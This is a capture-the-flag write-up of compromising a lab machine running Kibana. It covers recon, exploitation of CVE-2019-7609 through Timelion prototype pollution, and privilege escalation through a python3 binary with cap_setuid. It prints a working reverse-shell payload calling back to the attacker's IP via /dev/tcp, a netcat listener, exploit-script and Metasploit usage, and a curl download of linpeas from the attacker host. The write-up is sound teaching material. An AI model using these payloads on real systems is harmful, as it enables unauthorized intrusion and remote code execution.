 Before you begin, always add your ip address to hosts file so as to avoid burden especially ip address related operations, while you are actively pentesting.

How to apply ?

![](./images/cf3a2e5dd2d551b8640a2d493f3ee36f.png)

## Reconnaissance
 nmap payload:
└─# sudo nmap -sV -sC -p- kiba.thm

Unusual port number:

![](./images/e8a15745496651c4b5b275912f8c037d.png)

![](./images/c449e8ca809ba166e891781ff3d6294a.png)

What is Kibana ?
![](./images/f63b01787e995edea417abe07af45384.png)

Suspicious path:
http://kiba.thm:5601/app/timelion#



## Exploitation

Useful resources about vulnerability:
- https://github.com/LandGrey/CVE-2019-7609
- https://github.com/mpgn/CVE-2019-7609

For the exploitation phase we have two ways to compromise the target.
- Manual payload execution on 
### Manual Exploitation - 1

After a couple of research process, I discovered the vulnerability itself which is **Prototype Pollusion** on **Timelion** feature of the **Kibana** - ElasticSearch supported and opensource data visualization platform.

![](./images/729ac78be8e9db4f7c4fed3c058becbc.png)


Initial compromise:
- Used Payload:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.11.69.113/1337 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

- Netcat listener:
```
nc -lvnp 1337
```


Reverse Shell PoC:
![](./images/c01fde4a727b62e56d674dae6346ddbf.png)



### Manual Exploitation - 2

Although I have taken reverse shell connection properly, trying a python script where I discovered the vulnerability that trigger RCE automatically.

```
# python2 CVE-2019-7609-kibana-rce.py -h

usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell            reverse shell after verify

```

I will execute a payload below:

```
python2 CVE-2019-7609-kibana-rce.py -u http://10.10.163.241:5601 -host 10.11.69.113 -port 1234 --shell
```

However, it did not call back on my machine. After on my first shot, I got break-time and turn on hybrid mode on my system. Therefore, I am going to refresh the machine.

![](./images/d24a174170333ddd84070e2414595cc2.png)

![](./images/eaaad08b9760b6b943ea9af458e1c8cd.png)


Now it works ! After I restarted the machine, I was able to get my reverse shell !

![](./attachment/11df5f7c7c9ac5dfcab4d51099732301.png)


### Automated Exploitation

Metasploit Framework offers only three modules for **Kibana** platform. However, first approach was suitable for me. You can reach out the related module in below.

![](./images/c59ebbaa12eec0413d0a11bff25962e1.png)

To interact with correlated module:

```
use 0
```

Now you are ready to configure module specific settings.

In order to show options required by the module, use the below command:

```
show options
```

![](./images/c53a369d6204c98af36def3009c7b52d.png)

Modifying the *RHOSTS*, *TARGETURI* and *RPORT* is enough to execute our exploit.

To add necessary information to script settings:

```
set [needed attribute]

Example: set RHOSTS or set RPORT
```

For this scenario, do not forget to modify *RHOSTS*, *LHOST* and *LPORT*.

![](./images/a20b149b5028537d238919c11e7979b7.png)

Since I forgot to give *LHOST* and *LPORT* option, I was not able to run the script appropriately.



I have tried to run linpeas on tmp folder which allows users to run many scripts here ,but in this scenario it does not work. Therefore, I uploaded my files through /home/kiba

1. Deploy python server from local
```
python -m http.server 3131
```

2. Download linpeas from victim machine
```
curl http://10.11.69.113:3131/linpeas.sh -o linpeas.sh
```

3. Give executable permission to linpeas.sh
```
chmod +x linpeas.sh
```

4. Examine carefully  the linpeas output
- I found really useful evidence to escalate our privileges

![](./images/privilege.PNG)

- The crontab shows that the user Kiba has a cron job scheduled to run every minute. This job navigates to the directory /home/kiba/kibana/bin and runs the bash kibana command.

![](./images/1.png)

![](./images/sudo.png)

We have a possible privilege escalation vector known as Sudo Privileges:

Since Kiba is in the sudo group, check what commands you can run with sudo -l.

It did not work in this scenario:

```
  whoami
  kiba
  sudo -l
  sudo: no tty present and no askpass program specified
```

Furthermore, we have a binary named /home/kiba/.hackmeplease/python3, which has the capability cap_setuid+ep, which means that this Python binary can change user IDs (setuid). This is a potential privilege escalation vector since it allows the Python process to execute with elevated privileges.

![](./images/2.PNG)

Let me pay attention on .hackmeplease :D

![](./images/3.PNG)


Since we have the python3 binary and its vulnerability. In binary exploitation, we trust GFTOBins to escalate privileges:

https://gtfobins.github.io/gtfobins/python/


- On GFTOBins, we have many binaries available to elevate our privileges. However, today, we should look for Python binary. After a deep dive attempt, I recognized that I was dealing with cap_setuid+ep capability. Therefore, using this payload to escalate my privileges will be suitable.


![alt text](./images/4.PNG)

### Conclusion
All in all, this article demonstrates how different penetration testing methodologies can be used. From reconnaissance to post-exploitation, I provided three vital pathways for you to understand the idea behind the scene. The detailed steps, ranging from mapping out unusual ports (Kibana) to exploiting vulnerability and escalating privilege show the significance of understanding each phase deeply. Following the steps, applying knowledge practically, and adapting to challenges are crucial. Always remember that careful planning and paying attention to small details, such as setting up the Metasploit console or configuring script parameters correctly, can save you much trouble during the engagement